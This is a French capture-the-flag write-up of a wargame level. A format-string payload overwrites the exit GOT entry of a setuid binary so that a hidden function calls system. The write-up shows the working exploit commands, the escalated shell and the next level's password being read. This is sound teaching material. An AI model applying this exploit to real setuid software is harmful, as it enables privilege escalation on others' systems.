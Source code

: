 # leUVeL cInQ

- On cherche l'adresse du exit afin de l'override pour appeler la fonction o. Car c'est la seule fonction qui n'a pas d'utilité au programme et qui ne quitera pas la programme.

<pre>
$> objdump -R ./level5
./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
<strong>08049838</strong> R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
</pre>

- (hex)0x08049838 = (little indian)\\x38\\x98\\x04\\x08

- Comme pour l'exercice precedent nous cherchons la place de l'adresse de la fonction `o` grace au printf.

<pre>
$> python -c "print('AAAA' + '\x38\x98\x04\x08' + '%x ' * 5)" | ./level5
AAAA8200 b7fd1ac0 b7ff37d0 <strong>41414141 8049838</strong>
</pre>

- Afin de pouvoir override l'appel à exit nous devons recuperer l'adresse de la fonction o.

<pre>
$> gdb ./level5
(gdb) disass o
Dump of assembler code for function o:
   <strong>0x080484a4</strong> <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
</pre>
- (hex)0x080484a5 = (dec)134513828

- Comme pour l'exercice precedent nous avons l'adresse de la fonction à override et en plus l'adresse de la fonction o sous forme de decimal.

<pre>
$> (python -c "print('AAAA' + '\x38\x98\x04\x08' + '%134513820d' + '%5\$n')"; cat) | ./level5 | tr -d ' '

id
uid=2045(level5)gid=2045(level5)euid=2064(level6)egid=100(users)groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
AAAA8d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
</pre>